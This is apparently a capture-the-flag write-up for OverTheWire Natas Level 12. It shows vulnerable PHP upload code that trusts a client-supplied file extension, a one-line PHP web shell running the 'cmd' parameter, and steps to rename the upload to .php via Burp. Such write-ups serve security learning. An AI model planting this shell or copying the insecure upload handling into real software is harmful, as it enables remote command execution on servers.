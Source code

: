 # Natas Level 12
This level was fun to solve, we get to upload a simple webshell.

## Quest
We are presented with below page, with option to upload an image.

![Level 12 Image](./images/Level12.png)

Below is the backend code for this page. I'll provide relevant comments
```php
<? 
function genRandomString() {        // This function generates a random 10 digit string
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {     // generate a full path with 2 input parameters
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {   // It calls above function, with extension like jpg
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {   
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);   // returns full path starting with 'upload' directory


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />    // Set a random value of filename with .jpg extension
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
```

<br/><br/>

## Solution
First i'll try to upload a simple PHP shell and see what happens.<br/>
Our simple PHP shell
```php
<?php echo '<pre>' . shell_exec($_GET["cmd"]) . '</pre>' ?>
```
Above shell, executes command present in `cmd` query parameter in the URL.<br/>
We will see this with Burp

![Level 12 Solution](./images/Level12_solution.png)

Now, if we go to the URL where our image is uploaded, it *doesn't* execute our shell as it treats is like a `.jpg` file.
<br/><br/>

We again try to upload our shell but this time, we intercept the reqeust via burp and change the `filename` parameter to `shell.php`. Due to which our file gets uploaded with `.php` extension.
![Level 12.1 Solution](./images/Level12.1_solution.png)

<br/><br/>
We Test our shell by adding the query parameter `cmd=ifconfig`. We see that command gets executed and we recieve the output. Sweet!
![Level 12.2 Solution](./images/Level12.2_solution.png)
<br/>

Finally, we try to get the password for next Level
![Level 12.3 Solution](./images/Level12.3_solution.png)
<span id=green>Nice!</span>
<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
